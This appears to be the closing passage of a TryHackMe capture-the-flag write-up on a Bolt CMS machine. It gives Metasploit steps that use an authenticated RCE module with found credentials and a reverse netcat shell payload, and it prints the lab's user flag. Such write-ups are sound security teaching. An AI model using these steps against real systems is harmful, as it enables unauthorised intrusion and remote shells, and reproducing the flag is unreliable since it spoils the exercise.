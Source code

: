 Steps (example):

1. msfconsole
2. search Bolt CMS
3. use exploit/unix/webapp/bolt_authenticated_rce
4. set RHOSTS 10.201.13.155
5. set RPORT 8000
6. set USERNAME bolt
7. set PASSWORD boltadmin123
8. set PAYLOAD cmd/unix/reverse_netcat
9. set LHOST <your_ip>
10. set LPORT <your_port>
11. exploit

<div align="center">
  <img src="get_shell.png" alt="Got Shell" width="800"/>
</div>

We obtained a shell and escalated to root.

---

## Flags

Question: Look for flag.txt inside the machine.

User Flag: `THM{wh0_d035nt_l0ve5_b0l7_r1gh7?}`

<div align="center">
  <img src="user_flag.png" alt="User Flag" width="800"/>
</div>

---

## Conclusion & Takeaways

- Found credentials in page source — always inspect source.
- Matched Bolt version to known authenticated RCE (EDB-ID 48296).
- Authenticated RCE can yield a full compromise when exploited properly.

<div align="center">
  <img src="completed.png" alt="Completed" width="800"/>
</div>

---

## Happy Hacking!

<div align="center">
        <img src="https://media1.giphy.com/media/v1.Y2lkPTc5MGI3NjExZDV6eHp1ZmY0dWhkOHd6ZjFiMXpxbHR4bzk0YWNrMWdtbzI2c296aCZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/px8evWjqZcMfuagvav/giphy.gif" alt="Charlie Hunnam GIF" width="800"/>
</div>

